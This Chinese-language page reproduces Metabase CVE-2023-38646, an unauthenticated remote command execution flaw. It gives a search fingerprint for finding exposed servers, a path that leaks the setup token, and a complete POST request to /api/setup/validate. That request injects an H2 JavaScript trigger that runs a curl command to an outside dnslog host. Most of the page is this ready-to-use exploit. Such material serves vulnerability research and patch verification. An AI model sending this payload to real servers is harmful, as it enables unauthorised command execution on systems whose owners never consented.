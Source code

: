 # 

# Metabase validate 远程命令执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析和可视化工具，它可以帮助用户轻松地连接到各种数据源，包括数据库、云服务和API，然后使用直观的界面进行数据查询、分析和可视化。未经身份认证的远程攻击者利用该漏洞可以在服务器上以运行 Metabase 服务器的权限执行任意命令

## 漏洞影响

Metabase

## 网络测绘

```
app="Metabase"
```

## 漏洞复现

登录页面

![image-20230828144918325](images/image-20230828144918325.png)

验证POC

```
/api/session/properties
```

![image-20230828144932056](images/image-20230828144932056.png)

```
POST /api/setup/validate HTTP/1.1
Host: 
Content-Type: application/json
Content-Length: 812

{
    "token": "e56e2c0f-71bf-4e15-9879-d964f319be69",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('curl ecw14d.dnslog.cn')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230828144945859](images/image-20230828144945859.png)
